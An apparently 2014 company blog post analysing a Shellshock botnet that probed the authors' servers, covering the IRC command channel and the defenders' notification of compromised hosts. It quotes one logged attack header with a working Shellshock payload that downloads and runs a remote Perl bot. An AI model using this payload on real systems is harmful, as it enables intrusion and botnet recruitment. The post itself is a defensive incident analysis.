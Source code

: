 ```yaml
---
layout: post
title: Anatomy of a Shellshock botnet
date: '2014-10-23T15:10:00+03:00'
tags:
- shellshock
- cloud computing
- botnet
tumblr_url: https://blog.mist.io/post/100582053116/anatomy-of-a-shellshock-botnet
---
```

[Shellshock](http://en.wikipedia.org/wiki/Shellshock_(software_bug)) (aka Bashdoor) is a family of security vulnerabilities disclosed on September 24 that affected the very popular Bash shell. The first bug discovered, caused Bash to unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. Within days of the publication of this, intense scrutiny of the underlying design flaws discovered a variety of related vulnerabilities, which were addressed with a series of patches.

![image](/assets/tumblr-images/tumblr_inline_ndw0crN1zB1rgqrs8.jpg)

_(image by&nbsp;[Aaron Kondziela](http://aaronkondziela.com/2014/09/shellshock-logo-for-bash-vulnerability/) under&nbsp;CC BY 4.0)_

Attackers exploited Shellshock within hours of the initial disclosure by creating botnets of compromised computers to perform distributed denial-of-service attacks and vulnerability scanning. Our business is server management and monitoring, so naturally we were bound to witness some of these attacks.

Of course, our own servers were patched within hours of the announcement. That, however, didn’t stop people from launching the attacks. We take security very seriously and every exception that happens in Mist.io is documented and sent to our security team. On September 29, we started seeing several “HTTPNotFound: /cgi-bin/bash” exceptions and although our servers were patched, we decided to look into it and try to figure out what the attack plan was.

This is what we were looking at:

    Sep 29 2014, 20:18 UTC
    HTTP GET (from 174.143.168.121)
    path_info: /cgi-bin/bash
    user_agent: () { :;}; /bin/bash -c "wget ellrich.com/legend.txt -O  /tmp/.apache;killall -9 perl;perl /tmp/.apache;rm -rf /tmp/.apache"

Naturally, our first step was to take a look at that legend.txt script. Well, it turns out it was a [perl script](http://pastebin.com/MRb25xsc) used to scan for vulnerabilities and connect the compromised server to a command and control IRC server.&nbsp;Eventually, it tries to set up a SOCKS5 server (mocks) and if it succeeds, it sends the connection url via a private message in IRC.

Next step was to connect to that IRC server. At the time, 272 infected servers were connected to the IRC #apache channel with nicks like APACHE-4366394. There were 3 admins online, one of them using the very unique and modest nickname “god”. We chased the IP addresses of the admins, but as expected that did not yield any significant results. The IRC server’s IP originated in a Slicehost pool, and soon enough, that server was going down.

As the compromised servers were connected directly to the IRC server, we decided to collect their IP addresses, try to find their respective owners and inform them that their servers have been compromised.

Being the only non-bot users on that IRC channel, the operator kept kicking and banning us. Well, kick banning did not work in the 90’s, it sure wasn’t going to work now. After collecting the infected IPs, we started doing reverse lookups. Fortunattely, none of the IPs seemed to be [high-profile targets like Yahoo](http://www.futuresouth.us/wordpress/?p=5).

In the end of the day, we informed the hosting companies and eventually got to some of the owners. At least our efforts did not go in vain. Overall, it seemed like a pretty standard type of attack that would have been prevented if the compromised servers had been properly patched. Keep in mind that it had already been five days since the disclosure of Shellshock and it was featured in all major news networks.

Even if your server’s data are not important or it is a test server that you don’t care about, leaving it unpatched can make it part of a larger DDOS attack. Keeping your machines updated is crucial in fighting off the creation and expansion of malicious botnets.

**Do you have machines across clouds and want to easily manage them?&nbsp;[Sign up for Mist.io and try it for free!](https://mist.io/)**

